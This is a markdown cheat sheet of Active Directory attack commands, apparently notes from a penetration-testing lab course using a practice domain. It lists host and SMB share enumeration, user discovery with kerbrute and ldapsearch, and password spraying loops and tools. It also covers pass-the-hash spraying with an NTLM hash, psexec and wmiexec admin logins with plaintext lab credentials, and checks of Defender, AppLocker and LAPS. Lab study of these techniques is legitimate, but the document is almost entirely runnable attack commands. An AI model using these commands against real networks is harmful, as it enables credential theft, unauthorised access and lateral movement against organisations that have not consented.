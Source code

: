 Finding active host within domain
```shell-session
fping -asgq 172.16.5.0/23
```

Finding NULL Sessions

```shell-session
rpcclient -U "" -N 172.16.5.5
```


Find Host and discover shares
```bash
Snaffler.exe -s -d inlanefreight.local -o snaffler.log -v data
```

Credentialed smb share discovery
```shell-session
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares
```
```shell-session
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5
```

Credentialed directory discovery
```shell-session
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R 'Department Shares' --dir-only
```


Credentialed smb share file spidering
```shell-session
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'
```

Credentialed admin discovery
```shell-session
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da
```

Credentialed privilege user discovery
```shell-session
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 -PU
```

#### User and Group Discovery

Generating user account list
https://github.com/insidetrust/statistically-likely-usernames

Discovering valid users
```shell-session
enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```
```shell-session
crackmapexec smb 172.16.5.5 --users
```
```shell-session
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```

Credentialed valid user discovery
```shell-session
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users
```

Discovering valid users with user list
```shell-session
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt

(Extract usernames)

grep -oE '[^[:space:]]+@' logfile.txt | cut -d'@' -f1
```

Credentialed logged on user discovery
```shell-session
sudo crackmapexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users
```

Credentialed group discovery
```shell-session
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups
```

Admin login via impacket
```bash
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125  
```
Stealthy admin login via impacket
```bash
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5
```

#### Password Discovery

Password policy
```shell-session
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```

```shell-session
crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol
```

Password spraying linux

```shell-session
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
```shell-session
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```
```shell-session
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```

Password spraying windows 
	https://github.com/dafthack/DomainPasswordSpray
```powershell-session
PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

Admin account hash spraying host within domain
```shell-session
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

#### Account Attributes



Get common user attributes
```powershell-session
Get-ADUser -Identity htb-student
```

Group Details
```powershell-session
Get-ADGroup -Identity "Server Operators" -Properties *
```

Current User Privileges
```powershell-session
whoami /priv
```

#### Security Controls ####

Check Windows Devender
```powershell-session
Get-MpComputerStatus
```

Check Whitelist applications and paths
```powershell-session
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

Checking if in constrained mode
```powershell-session
$ExecutionContext.SessionState.LanguageMode
```

Show users delegated to read LAPS passwords
```powershell-session
Find-LAPSDelegatedGroups
```

Show host with LAPS enabled when password expires
```powershell-session
Get-LAPSComputers
```

Show users within extended rights
```powershell-session
Find-AdmPwdExtendedRights
```

## Network Information

| **Networking Commands**              | **Description**                                                                                                  |
| ------------------------------------ | ---------------------------------------------------------------------------------------------------------------- |
| `arp -a`                             | Lists all known hosts stored in the arp table.                                                                   |
| `ipconfig /all`                      | Prints out adapter settings for the host. We can figure out the network segment from here.                       |
| `route print`                        | Displays the routing table (IPv4 & IPv6) identifying known networks and layer three routes shared with the host. |
| `netsh advfirewall show allprofiles` | Displays the status of the host's firewall. We can determine if it is active and filtering traffic.              |
#### Quick WMI checks

|**Command**|**Description**|
|---|---|
|`wmic qfe get Caption,Description,HotFixID,InstalledOn`|Prints the patch level and description of the Hotfixes applied|
|`wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List`|Displays basic host information to include any attributes within the list|
|`wmic process list /format:list`|A listing of all processes on host|
|`wmic ntdomain list /format:list`|Displays information about the Domain and Domain Controllers|
|`wmic useraccount list /format:list`|Displays information about all local accounts and any domain accounts that have logged into the device|
|`wmic group list /format:list`|Information about all local groups|
|`wmic sysaccount list /format:list`|Dumps information about any system accounts that are being used as service accounts.|
